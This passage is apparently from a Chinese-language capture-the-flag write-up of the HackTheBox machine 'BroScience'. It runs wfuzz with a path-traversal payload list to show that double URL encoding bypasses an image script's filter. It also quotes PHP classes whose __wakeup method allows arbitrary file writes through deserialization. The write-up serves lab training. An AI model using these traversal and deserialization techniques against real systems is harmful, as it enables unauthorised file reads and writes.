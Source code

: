 ```shell
	        die('<b>Error:</b> Attack detected.');
	    }
	}

	// Normalize path
	$path = urldecode($path);

	// Return the image
	header('Content-Type: image/png');
	echo file_get_contents('/var/www/html/images/' . $path);
	?>%
```

可能为了测试出这个地方使用双重 URL 编码绕过，需要使用一定的 FUZZ 手段

下载一个 github payloads 仓库

```shell
git clone https://github.com/foospidy/payloads.git
wfuzz -c -w /tools/payloads/other/traversal/dotdotpwn.txt --hh=30,0 -u 'https://broscience.htb/includes/img.php?path=FUZZ'
```

统统 fuzz 一遍，就发现双重编码是可以绕过的

![](https://i.328888.xyz/2023/04/05/i8VQKA.png)

# 代码审计

将整个题目源码下载下来审计

![](https://i.328888.xyz/2023/04/05/i8f0Sp.png)

任意文件写

```php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath;

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
```
